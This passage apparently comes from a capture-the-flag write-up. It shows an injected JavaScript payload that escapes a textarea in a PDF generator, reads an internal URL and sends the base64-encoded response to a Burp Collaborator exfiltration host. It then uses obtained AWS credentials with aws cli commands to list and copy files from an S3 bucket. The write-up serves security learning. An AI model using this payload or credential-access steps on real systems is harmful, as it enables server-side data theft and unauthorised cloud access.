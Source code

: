 ```javascript
</textarea>
<script nonce='1692123412'>
var url = "http://env.UUID.ctfio.com";
var attacker = "http://COLLAB_ID.oastify.com/exfil";
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
</script>
<script nonce='1692123413'>

....


<script nonce='1692123417'>
var url = "http://env.UUID.ctfio.com";
var attacker = "http://COLLAB_ID.oastify.com/exfil";
var xhr = new XMLHttpRequest();
xhr.onreadystatechange = function() {
if (xhr.readyState == XMLHttpRequest.DONE) {
fetch(attacker + "?" + encodeURI(btoa(xhr.responseText)))
}
}
xhr.open('GET', url, true);
xhr.send(null);
</script>
```
Once the PDF is generated we’ll receive a request in Burp collaborator and the contents of the **env.UUID.ctfio.com** website are returned base64 encoded. The first flag will be within the content of that page.

![1](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/8646cf9b-093b-405b-ba42-803c7e6246ee)

## Flag two

Apparently now we have obtained a set of AWS credentials and a bucket name.

We can use the aws cli to connect to the bucket with the credentials and see what is hosted there. We can run the following commands

```console
aws configure //Set the credentials obtained above
aws s3 ls s3://ctfswagshop
aws s3 cp s3://ctfswagshop/flag.txt .
```

![image](https://github.com/tarifas90/CTF-Writeups-2023/assets/55701068/38757fbb-0268-4ca2-9a61-1dbc37dd4d1e)
